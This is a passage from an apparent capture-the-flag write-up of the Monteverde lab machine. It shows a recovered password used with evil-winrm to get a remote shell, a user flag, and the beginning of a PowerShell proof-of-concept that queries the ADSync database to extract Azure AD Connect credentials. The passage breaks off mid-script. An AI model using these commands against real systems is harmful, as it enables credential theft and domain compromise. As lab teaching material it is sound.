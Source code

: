 <img  alt="Pasted image 20240730060109" src="https://github.com/user-attachments/assets/2b6d9370-32e7-4660-acc9-1caaef5a5578">

`mhope : 4n0therD4y@n0th3r$`

## WinRM

Windows Remote Management (WinRM) is a protocol developed by Microsoft, enabling administrators to **manage and control Windows-based systems remotely** Evil-winrm is a tool which use **WinRM** service to get remote shell on the box.

```powershell
$ evil-winrm -i megabank.local -u mhope -p '4n0therD4y@n0th3r$'           
```

- **-i** for IP address
- **-u** for user
- **-p** for password

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> type ../Desktop/user.txt
c73a161954687d3432a06aee82802977
```


# Privilege Escalation

## Enumeration

With a quick enumeration, i discover that the user **mhope** is a member of Azure Admin group.

<img  alt="Pasted image 20240730060536" src="https://github.com/user-attachments/assets/732d1c4a-48b0-4af5-b9b7-5bbeb637300f">

In **Program Files** directory i discover that the Azure AD connect is running.  

<img alt="Pasted image 20240730061119" src="https://github.com/user-attachments/assets/533e35da-b863-4f95-acd1-52da2d924e6b">

### What is Azure AD Connect

The Azure AD Connect service is essentially responsible for **synchronizing things between your local AD domain, and the Azure based domain**. However, to do this it needs privileged credentials for your local domain so that it can perform various operations such as syncing passwords etc.

I found a blog post for Azure AD Connect Privilege Escalation by XPN, he explain this pretty well. [Azure AD Connect for Red Teamers - XPN InfoSec Blog (xpnsec.com)](https://blog.xpnsec.com/azuread-connect-for-redteam/).

#### Exploitation

I copied the script and test it and it break my winrm session. Then is identified that the syntax used in the script is for EXPRESS SQL, i  modified it little bit and get the admin password.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

```